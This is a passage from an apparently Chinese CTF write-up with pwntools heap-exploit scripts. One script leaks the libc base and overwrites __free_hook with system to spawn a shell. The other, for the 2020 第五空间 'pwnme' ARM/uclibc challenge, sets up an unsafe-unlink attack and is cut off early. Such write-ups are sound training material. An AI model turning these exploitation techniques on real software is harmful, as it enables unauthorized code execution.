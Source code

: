 ```
def show(idx):
    io.sendlineafter(">> ", b'3')
    io.sendlineafter("index?\n", str(idx))
 
def quit():
    io.sendlineafter(">> ", b'5')
 
if __name__ == '__main__':
    payload = p32(0)*7 + p32(1)
    create(1, 0x300, payload) # 0
    create(1, 0x20, b'/bin/sh\x00') # 1
    delete(0)
    create(0) # 0
    create(0) # 2
    show(2)
    io.recvuntil("player name: ")
    libc.address = u32(io.recv(4)) - 580 - libc.sym['main_arena']
    success("libc_base:\t" + hex(libc.address))
 
    create(1, 0x20) # 3
    delete(3)
    create(0) # 3
    delete(3)
    create(1, 0x20, p32(libc.sym['__free_hook'])) # 3
    create(1, 0x20, p32(libc.sym['system'])) # 4
    delete(1)
    io.interactive()

```

### 2020 第五空间 pwnme

`arm`架构下的堆题，不过这题的`libc`不是`glibc`了，而是`uclibc`，其实在这道题中没什么区别，一样的做就可以了，有堆溢出漏洞，又没有`PIE`，于是打一个`unsafe unlink`即可，很容易。

```
from pwn import *
context(os = "linux", arch = 'arm', log_level = 'debug')
 
io = process("qemu-arm -L ./ ./pwn", shell = True)
 
elf = ELF("./pwn")
libc = ELF("./lib/libc.so.0")
 
def show():
    io.sendlineafter(">>> ", b'1')
 
def add(size, content = b'winmt'):
    io.sendlineafter(">>> ", b'2')
    io.sendlineafter("Length:", str(size))
    io.sendafter("Tag:", content)
 
def edit(idx, size, content):
    io.sendlineafter(">>> ", b'3')
    io.sendlineafter("Index:", str(idx))
    io.sendlineafter("Length:", str(size))
    io.sendafter("Tag:", content)
 
def delete(idx):
    io.sendlineafter(">>> ", b'4')
    io.sendlineafter("Tag:", str(idx))
 
if __name__ == '__main__':
    add(0x10) # 0
```